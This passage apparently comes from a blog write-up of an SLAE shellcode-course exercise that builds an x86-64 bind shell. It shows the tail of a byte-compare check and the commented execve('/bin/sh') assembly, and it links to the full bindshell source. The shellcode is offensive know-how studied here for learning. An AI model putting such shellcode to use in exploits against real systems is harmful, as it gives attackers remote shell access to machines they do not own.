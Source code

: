 ```js
        cmp rbx, rcx
        je execve

exit:						; jump here if bytes do not match
        xor rdi, rdi
        xor rax, rax
        add rax, 60
        syscall

```

#### <b>Finale - execve()</b>

Execve() takes 3 arguments: the file we want to execute which for us is the `/bin/sh`, as we it is a pointer `const char *filename` we need RDI to contain the address on which we have stored the program name. This is the reason why we first move the string in hex to RBX, push on the top of the stack and then move the address to RDI.

Next we need to get the address of an array of string constants `{"/bin/sh", NULL};` to RSI. For that we can just push the address we have at RDI to the top of the stack and move that stack address to RSI.

Third, we do not want to pass any environment variables, so we can make the 3rd argument just 0. So to finish it up, let's check the `execve()` syscall number via `ausyscall execve`, read it to RAX and have a go on the last syscall for this task.

```js
execve:
	;int execve(const char *filename, char *const argv[], char *const envp[]);
	xor rdi, rdi
	xor rax,rax
	push rax

	mov rbx, 0x68732f6e69622f
	push rbx
	mov rdi, rsp

	push rax
	mov rdx, rsp

	push rdi
	mov rsi, rsp

	add rax, 59
	syscall
```

* * *


* Full assembly code can be found at:<br> [https://github.com/silviavali/SLAE/blob/master/task1/bindshell.nasm](https://github.com/silviavali/SLAE/blob/master/task1/bindshell.nasm)
* Full C code:<br> [https://github.com/silviavali/SLAE/blob/master/task1/bindshell.c](https://github.com/silviavali/SLAE/blob/master/task1/bindshell.c)
